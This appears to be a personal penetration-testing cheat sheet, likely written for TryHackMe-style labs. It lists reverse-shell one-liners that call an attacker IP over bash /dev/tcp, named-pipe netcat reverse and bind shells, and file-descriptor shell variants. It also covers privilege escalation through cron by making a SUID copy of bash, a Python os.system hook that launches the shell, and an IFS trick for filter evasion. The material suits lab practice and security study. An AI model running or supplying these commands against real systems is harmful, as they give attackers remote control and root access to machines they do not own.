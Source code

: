 
```sh
#!/bin/bash

bash -i >& /dev/tcp/10.18.21.236/443 0>&1
```

<font color="red">Don't forget to make sure your script file is executable `chmod +x [script]`
cron won't run without both #! and +x</font>
Also testrun shell as current user before waiting for scheduled job to run

---

If you get the error:
`mksudo.sh: 8: mksudo.sh: Syntax error: Bad fd number`
you're running with sh, not bash

---

`${IFS%??}` = space as in `which${IFS%??}bash`

^works on bash, not on zsh

Reverse shell:
`/bin/bash -i >& /dev/tcp/10.18.21.236/443 0>&1`

-i   interactive
`>&`: redirects both standard output (stdout) and standard error (stderr)
`0>&1`: redirects the standard input (stdin) to the same destination as standard output. This ensures that any input intended for the shell is also sent over the network connection to the attacker's machine.

-l   executes `~/.bash_profile`, `~/.bash_login`, or `~/.profile` (in that order) and inherits environment variables set in those files

rev shell file:
```sh
#!/bin/bash
bash -i >& /dev/tcp/10.18.21.236/443 0>&1
```

To run with existing cronjob or similar:
```sh
#!/bin/bash
cp /bin/bash /tmp/mybash
chmod +xs /tmp/mybash
```
chmod +x /home/user/whatever.sh
/tmp/mybash -p

---
alternative

nano revsh.sh
```sh
#!/bin/bash
bash -i >& /dev/tcp/10.18.21.236/443 0>&1
```
in python code run by system (like crontab)
```python
import os

os.system("touch /tmp/testfile")
os.system("bash /tmp/revsh.sh")
```

---

Revsh using named pipes (connecting from target machine)
```sh
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```

Bind shell using named pipes (listening on target machine)
```sh
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```
connect with
```sh
nc -nv TARGET_IP 8080
```

---

Read Line Rev shell (creates file descriptor)
```sh
5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done 
```

Rev shell with File descriptor 196
```sh
target@tryhackme:~$ 0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196 
```

Rev shell with File descriptor 5
```sh
target@tryhackme:~$ bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
```

